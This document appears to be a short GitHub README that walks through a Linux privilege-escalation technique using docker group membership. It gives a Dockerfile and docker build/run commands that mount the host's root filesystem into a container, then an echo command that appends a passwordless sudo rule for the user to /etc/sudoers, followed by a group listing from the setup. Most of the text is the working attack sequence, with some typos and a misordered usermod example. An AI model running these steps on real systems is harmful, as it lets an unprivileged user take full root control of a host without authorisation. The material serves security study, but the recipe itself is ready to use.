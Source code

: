 Assume that we have user that has not got any permissions in "etc/sudoers" file,
but suddenly have access for docker group ```(set-up: sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker).```

# Escalation

mkdir pesc
cd pesc
nano Dockerfile
```
FROM debian:wheezy

ENV WORKDIR /pesc

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```
docker build -t pesc . 
docker run -v /:/pesc pesc  # put root a file system into workdir, env variable of image with the same name
docker run -v /:/pesc -it pesc /bin/bash

since docker is running with root privilege inside entire file system, originally
hold by my machine, so we can go ahead and work with (etc/sudoers) on original rarget.
because we can edit this, sadly we dont have vim or any editor on docker container, we can actually echo into it
```
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /pesc/etc/sudoers
```

now in fact we are treated as a root.

# set-up enviroment

### sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker)

### getent group log:

```
$ getent group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,BillyGLW
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:BillyGLW
floppy:x:25:
tape:x:26:
sudo:x:27:BillyGLW
audio:x:29:
dip:x:30:BillyGLW
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:BillyGLW
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:BillyGLW
mlocate:x:109:
uuidd:x:110:
ssh:x:111:
landscape:x:112:
BillyGLW:x:1000:
netdev:x:113:
rdma:x:114:
sambashare:x:115:BillyGLW
BillyGLW:x:1001:
docker:x:116:BillyGLW
```
